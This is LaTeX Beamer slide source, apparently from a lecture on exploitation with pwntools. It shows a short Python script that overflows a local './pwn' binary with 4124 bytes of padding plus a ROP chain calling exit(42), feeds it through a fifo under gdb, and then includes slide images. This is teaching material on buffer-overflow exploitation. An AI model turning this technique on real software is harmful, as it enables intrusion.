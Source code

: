 \begin{frame}[fragile]
  {pwntools again!}

  \begin{lstlisting}[language=python]
from pwn import *  # NOQA

velf = ELF("./pwn")
r = ROP(velf)
r.call("exit", [42])
payload = "A" * 4124 + str(r)

# launch process
vp = process(["./pwn", "./fifo"])
gdb.attach(vp)
# break *0x8048f4e

with open("./fifo", "w") as f:
    f.write(payload)

# forward stdin/stdout to process stdin/stdout
vp.interactive()
  \end{lstlisting}
\end{frame}


{
\begin{frame}[plain]
  \begin{center}
    \includegraphics[height=0.7\textheight]{../images/pwntools-exp.png}
  \end{center}
\end{frame}


\begin{frame}[plain]
  \begin{center}
    \includegraphics[width=\textwidth]{../images/pwntools-shellcraft.png}
  \end{center}
\end{frame}
}

